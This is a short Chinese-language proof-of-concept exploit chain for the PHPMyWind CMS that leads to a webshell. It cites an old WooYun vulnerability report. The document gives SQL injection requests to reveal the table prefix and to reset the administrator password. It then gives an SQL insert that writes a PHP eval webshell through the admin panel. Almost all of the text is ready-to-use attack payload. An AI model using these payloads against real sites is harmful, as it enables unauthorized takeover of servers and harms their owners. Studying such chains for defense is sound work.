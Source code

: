 # PHPMyWind 2014-2017 getshell
## From
* PHPMyWind SQL注入 无限制 [wooyun-2015-089760](http://www.loner.fm/bugs/bug_detail.php?wybug_id=wooyun-2015-089760)

## POC
PS：POC 已做改动

0. 爆前缀
```
/member.php?a=quesfind
POSTDATA：uname=testaa union select 1&answer=2
```

1. 重置后台密码为 admin
```
/4g.php?m=show&cid=2&tbname=pmw_admin` SET password=0x6333323834643066393436303664653166643261663137326162613135626633 WHERE 1=1 or @`'` -- @`'`
```

2. 后台 -> 数据库管理 -> 执行 SQL
```
insert into `pmw_webconfig`(`varname`, `varvalue`, `vartype`) values('test', 'file_put_contents("demo.php", \'<?php @eval($_POST[x]) ?>\')', 'number')
执行完成后去站点管理创建一个站点
webshell：/admin/demo.php
```